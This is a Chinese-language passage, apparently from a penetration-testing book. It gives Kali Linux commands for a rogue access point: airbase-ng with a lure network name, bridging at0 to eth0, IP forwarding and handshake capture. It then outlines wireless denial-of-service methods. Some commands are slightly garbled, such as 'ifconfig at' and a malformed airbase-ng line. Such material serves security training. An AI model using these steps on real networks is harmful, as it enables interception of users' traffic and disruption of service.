     ```

1.  使用以下命令在`mon0`上设置接入点（AP）。社会工程学对 AP 的成功有重大影响，因此使用一个能吸引目标客户的名称。在这个例子中，我们将使用一个通用的开放式 Wi-Fi 网络名称。它将在 WiFi 频道六上建立：

```
    root@kali:~# airbase-ng --essid Customer_Network 
      -c 6 mon0 

    ```

1.  使用以下命令安装桥接工具：

```
    apt-get install bridge-utils

    ```

1.  在另一个终端窗口中，使用桥接工具创建一个桥接（`rogue`），并将`at0`（`at0`接口是由前一个命令创建的）链接到`eth0`（请注意，必须首先使用`apt-get install bridge-utils`安装桥接工具）。

```
    root@kali:~# brctl addbr rogue
    root@kali:~# brctl addif rogue at0
    root@kali:~# brctl addif rogue eth0

    ```

因为这两个接口被集成到虚拟桥中，你可以使用以下命令释放它们的 IP 地址：

```
    root@kali:~# ifconfig at0 down
    root@kali:~# ifconfig at 0.0.0.0 up
    root@kali:~# ifconfig eth0 down
    root@kali:~# ifconfig eth0 0.0.0.0 up

    ```

1.  使用以下命令启用桥接上的 IP 转发：

```
    root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward

    ```

1.  使用以下命令配置桥接到连接到`eth0`的 LAN 的 IP 地址：

```
    root@kali:~# ifconfig rogue 10.1.x.y netmask 255.255.255.0 broadcast 10.1.x.255 up
    root@kali:~# route add default gw 10.1.x.1

    ```

1.  使用以下命令启动 AP 以嗅探认证握手：

```
    airbase-ng -c 6 -e --ESSID /file_path/file.cap wlan0

    ```

# 拒绝服务攻击

我们将评估对无线网络的最终攻击是拒绝服务攻击，攻击者剥夺合法用户访问无线网络或通过使网络崩溃使其不可用。无线网络极易受到 DoS 攻击的影响，并且很难在分布式无线网络上定位攻击者。DoS 攻击的例子包括以下内容：

+   向无线网络注入制作的网络命令，如重新配置命令，可以导致路由器、交换机和其他网络设备的故障。

+   一些设备和应用程序可以识别正在发生的攻击，并将自动响应以禁用网络。一个恶意的攻击者可以发动一个明显的攻击，然后让目标自己创建 DoS！

+   用数据包的洪水攻击无线网络可以使其无法使用；例如，一个 HTTP 洪水攻击向 Web 服务器发出数千个页面请求，可以耗尽其处理能力。同样，用认证和关联数据包淹没网络会阻止用户连接到接入点。
```